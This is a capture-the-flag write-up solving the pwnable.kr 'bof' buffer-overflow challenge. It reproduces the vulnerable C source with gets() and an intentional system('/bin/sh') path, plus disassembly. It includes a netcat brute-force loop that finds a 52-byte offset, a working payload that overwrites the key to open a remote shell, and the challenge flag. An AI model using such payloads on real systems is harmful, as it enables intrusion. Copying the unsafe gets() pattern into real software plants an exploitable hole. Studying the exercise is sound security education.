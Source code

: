 ## Question

> Nana told me that buffer overflow is one of the most common software vulnerability. 
> Is that true?
> 
> Download : http://pwnable.kr/bin/bof
> Download : http://pwnable.kr/bin/bof.c
> 
> Running at : nc pwnable.kr 9000

<button class="section" target="solution" show="Show solution" hide="Hide solution"></button>

<!--sec data-title="Solution" data-id="solution" data-show=false ces-->

### Step 1: What the hell is `nc`?

I had no idea what `nc` was, so I ran `man nc`... Not very helpful:

```
DESCRIPTION
    The nc (or netcat) utility is used for just about anything under the sun
    involving TCP or UDP.  It can open TCP connections, send UDP packets, lis-
    ten on arbitrary TCP and UDP ports, do port scanning, and deal with both
    IPv4 and IPv6.  Unlike telnet(1), nc scripts nicely, and separates error
    messages onto standard error instead of sending them to standard output, as
    telnet(1) does with some.

    Common uses include:

        o   simple TCP proxies
        o   shell-script based HTTP clients and servers
        o   network daemon testing
        o   a SOCKS or HTTP ProxyCommand for ssh(1)
        o   and much, much more
```

OK, so it could be anything??? After running the `nc pwnable.kr 9000`, nothing seem to happen, until you enter something:

```bash
$> nc pwnable.kr 9000
WTF? # This is my input :)
overflow me :
Nah..
```

So I need to enter something, and there must be something running there.

### Step 1.5: See what is inside other files

This is the content of the `bof.c`

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);       // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

I am assuming that's the file that is responding to us from the `nc ...`.
And it has abuffer...
That could be overflown...
Nice! :)

Also notice that if we get in the `if` statement, we will have access to the `/bin/sh`.

### Step 2: Get inside the executable!

There is a compiled executable, and after quick look around, it appears to be an ELF file.
Well, that's a bummer, because I cannot run ELF files on my machine + it was compiled on a different one:)):
Also, GDB on OS X is not very useful for the ELF files.

```bash
$> file bof
bof: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, not stripped
$> chmod +x bof
$> ./bof
-bash: ./bof: cannot execute binary file: Exec format error
$> gdb bof
GNU gdb (GDB) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
[...]
"bof": not in executable format: File format not recognized
(gdb) file bof
"bof": not in executable format: File format not recognized
(gdb) exec-file bof
"bof": not in executable format: File format not recognized
(gdb) q
$>
```

Let's try LLDB - If you are not on OS X, [here is the cheat sheet for converting between LLDB and GDB](http://lldb.llvm.org/lldb-gdb.html).

```
$> lldb bof
(lldb) di -n func
bof`func:
bof[0x62c] <+0>:  pushl  %ebp
bof[0x62d] <+1>:  movl   %esp, %ebp
bof[0x62f] <+3>:  subl   $0x48, %esp
bof[0x632] <+6>:  movl   %gs:0x14, %eax
bof[0x638] <+12>: movl   %eax, -0xc(%ebp)
bof[0x63b] <+15>: xorl   %eax, %eax
bof[0x63d] <+17>: movl   $0x78c, (%esp)            ; imm = 0x78C
bof[0x644] <+24>: calll  0x645                     ; <+25>
bof[0x649] <+29>: leal   -0x2c(%ebp), %eax
bof[0x64c] <+32>: movl   %eax, (%esp)
bof[0x64f] <+35>: calll  0x650                     ; <+36>
bof[0x654] <+40>: cmpl   $0xcafebabe, 0x8(%ebp)    ; imm = 0xCAFEBABE
bof[0x65b] <+47>: jne    0x66b                     ; <+63>
bof[0x65d] <+49>: movl   $0x79b, (%esp)            ; imm = 0x79B
bof[0x664] <+56>: calll  0x665                     ; <+57>
bof[0x669] <+61>: jmp    0x677                     ; <+75>
bof[0x66b] <+63>: movl   $0x7a3, (%esp)            ; imm = 0x7A3
bof[0x672] <+70>: calll  0x673                     ; <+71>
bof[0x677] <+75>: movl   -0xc(%ebp), %eax
bof[0x67a] <+78>: xorl   %gs:0x14, %eax
bof[0x681] <+85>: je     0x688                     ; <+92>
bof[0x683] <+87>: calll  0x684                     ; <+88>
bof[0x688] <+92>: leave
bof[0x689] <+93>: retl

(lldb) di -n main
bof`main:
bof[0x68a] <+0>:  pushl  %ebp
bof[0x68b] <+1>:  movl   %esp, %ebp
bof[0x68d] <+3>:  andl   $-0x10, %esp
bof[0x690] <+6>:  subl   $0x10, %esp
bof[0x693] <+9>:  movl   $0xdeadbeef, (%esp)       ; imm = 0xDEADBEEF
bof[0x69a] <+16>: calll  0x62c                     ; func
bof[0x69f] <+21>: movl   $0x0, %eax
bof[0x6a4] <+26>: leave
bof[0x6a5] <+27>: retl

(lldb) 
```

Note that the `0xCAFEBABE` and `0xDEADBEEF` are written to some addresses. 
We probably need to change one of them.
However, I couldn't get the file to run on my OS X, and I was too lazy to get the virtual machine, and I am bad at LLDB/GDM/R2, so we will do the bruteforce approach :)


### Step 3: Get the offset!

We will flood the buffer with this string:

```python
python -c "print 'Z'*n + '\xbe\xba\xfe\xca\n'"
```

where `n>32` -- and we will see what the reponse would be. 
Because our assumption is that the program will run the `/bin/sh`, we can run `echo` on it to indicate that we found a right offset :)))


```bash
for i in `seq 33 100`; do
    echo =====$i======
    (python -c "print 'Z'*$i + '\xbe\xba\xfe\xca\n'"; sleep 1; echo "echo STAAAHHHP") | nc pwnable.kr 9000;
done
```

After 10-15 seconds, results is:

```
[...]
*** stack smashing detected ***: /home/bof/bof terminated
=====50======
*** stack smashing detected ***: /home/bof/bof terminated
=====51======
*** stack smashing detected ***: /home/bof/bof terminated
=====52======
STAAAHHHP
*** stack smashing detected ***: /home/bof/bof terminated
=====53======
*** stack smashing detected ***: /home/bof/bof terminated
=====54======
*** stack smashing detected ***: /home/bof/bof terminated
^C
```

Now we know that the offset is 52! :)))

### Step 4: Grab the flag

Now use the offset and `cat -` to access the shell

```bash
$> (python -c "print 'Z'*52 + '\xbe\xba\xfe\xca\n'"; cat -) | nc pwnable.kr 9000
ls # This is my input -- there is no prompt
bof
bof.c
flag
log
super.pl
cat flag
daddy, I just pwned a buFFer :)
exit # This is my input -- there is no prompt
*** stack smashing detected ***: /home/bof/bof terminated

```

### Flag

`daddy, I just pwned a buFFer :)`
<!--endsec-->


